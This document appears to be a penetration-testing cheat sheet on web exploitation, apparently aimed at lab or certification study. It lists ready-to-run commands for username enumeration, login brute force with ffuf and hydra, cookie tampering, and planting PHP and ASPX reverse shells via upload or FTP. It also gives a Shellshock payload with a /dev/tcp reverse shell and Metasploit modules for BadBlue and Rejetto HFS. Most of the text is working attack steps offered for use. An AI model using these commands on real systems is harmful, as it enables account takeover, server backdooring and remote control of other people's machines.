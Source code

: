 # Web Exploitations

## Authentication Bypass

### Username enumeration

If the login or register page tell me a message like this when i try to use a username: "**An account with this username already exists**". We can use some tools to enumerate valid users.

{% code title="ffuf" overflow="wrap" %}
```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=X&password=X&cpassword=X" -H "Content-Type: application/x-www-form-urlencoded" -u http://DOMAIN.COM/customers/signup -mr "username already exists"

# -w: specific a list of usernames
# -X: set request method
# -d: specify the parameters with FUZZ par
# -H: set header
# -u: indicate the URL
# -mr: message which indicate that user is already exists
```
{% endcode %}

### HTTP Login Brute Force&#x20;

{% code title="hydra" overflow="wrap" %}
```bash
# first check the source code of the web page
# check the request method (POST,GET,...)
# check the login variable (user, password)
# check the error response in case of invalid creds

# use hydra tool to do login brute force
hydra -L usernames -P passwords IP http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"
```
{% endcode %}

{% code title="ffuf" overflow="wrap" %}
```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://$URL/login -fc 200

# -w: declare wordlists into variables W1 and W2
# -d: set parameters with the Wordlist declared before
# -fc: positive match, avoid HTTP response 200
```
{% endcode %}



### Logic Flaw

Try to check the logic of these pages/actions for a website to find authentication bypasses:

* Reset Password Logic
* Login page Logic
* Register page Logic

#### Create a "doppelganger"

To create a new user with the same name as the target user but with a space at the beginning of the name, follow these steps..

For hacking the user **admin**. We have to create a user with this name " `admin`" (without quotes). In this way all the query for this new user will be  the same of the target user.

### Cookie Tampering

**Examining and editing the cookies** set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.

If we have this cookies in a website:

```
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/
```

We can change this cookie like this to become a Admin:

```
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=true; Max-Age=3600; Path=/
```



## Put file in '/uploads' folder

```bash
#! copy a revshell in php  
cp /usr/share/webshells/php/php-reverse-shell.php .
# or generate a payload 
msfvenom -p php/meterpreter_reverse_tcp lhost=IP lport=PORT -o shell.php

# Request to upload a file with revshell
curl http://IP/uploads/ --upload-file php-reverse-shell.php

# Delete file uploaded
curl -X DELETE http://IP/uploads/php-reverse-shell.php
```



## Backdoor Web via FTP

**Required:**

* WebServer connection via FTP
* User permissions to add file in web directory&#x20;

```bash
# Prepare the shell
ls -la /usr/share/webshells/
cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php shell.php
# Once we're in a web dir via ftp
put shell.php
```

```bash
# .aspx Payload
## create payload
msfvenom -p windows/shell/reverse_tcp LHOST=ATT_IP LPORT=ATT_PORT -f asp > shell.aspx
## -p: paylaod to use
## LHOST: attacker ip
## LPORT: attacker listener port
## -f: output format

## put payload via ftp (in ftp connection)
put shell.aspx

# set up msfconsole handler
service postgresql start && msfconsole
use multi/handler
set payload windows/shell/reverse_tcp
set LHOST ATT_IP
set LPORT ATT_PORT
```



## Targeting PHP

```bash
# PHP Enum file
/phpinfo.php


# Search vulnerable php version
searchsploit php cgi
## Select a exploit and copy it
searchsploit -m EXPLOIT_ID
vim EXPLOIT_ID
```



## Know vulns

### Shellshock

#### Manual Exploitation

```bash
# Search a .cgi sccript
 
# Run nmap script for shellshock vuln check
nmap -sV $IP --script=http-shellshock --script-args "http-shellshock.uri=/$SCRIPT.cgi"
 
# intercect the request with .cgi script vuln and edit the User-Agent header with Burp Suit
GET /test.cgi
user-Agent: () { : ; }; echo; echo; /bin/bash -c '$CMD'
 
# get a revshell
# edit $CMD field with rev shell (burp)
bash -i >/dev/tcp/$IP/$PORT 0>&1
 
# set listener port in kali machine
nc -lnvp $PORT
```

#### Automatic Explotation

```bash
#start metasploit console with database
service postgresql start && msfconsole
 
#search, conf and run metasploit module
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS IP
set RPORT PORT
set TARGETURI SCRIPT_PATH
exploit
```

### Badblue (2.7)

#### Metasploit Exploitation

```bash
searchsploit BadBlue 2.7

# BadBlue 2.7
service postgresql start && msfconsole
search BadBlue
use exploit/windows/http/badblue_passthru
set RHOSTS IP
show options
exploit
```



### Rejetto (HttpFileServer 2.3)

#### Manual Exploitation

```bash
# Search exploit
searchsploit rejetto
# Copy the script
searchsploit -m 39161
```

1. Read and edit python script (ip\_addr, local\_port)
2. Set listener (nc -nvlp 1234)
3. Set a python web server in a directory where there is nc.exe file (python3 -m http.server 80)\
   -> (/usr/share/windows-resources/binaries)
4. run the script (python3 39161.py IP PORT)

#### Metasploit Exploitation

```bash
service postgresql start && msfconsole
search rejetto
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS
set TARGETURI
exploit
```
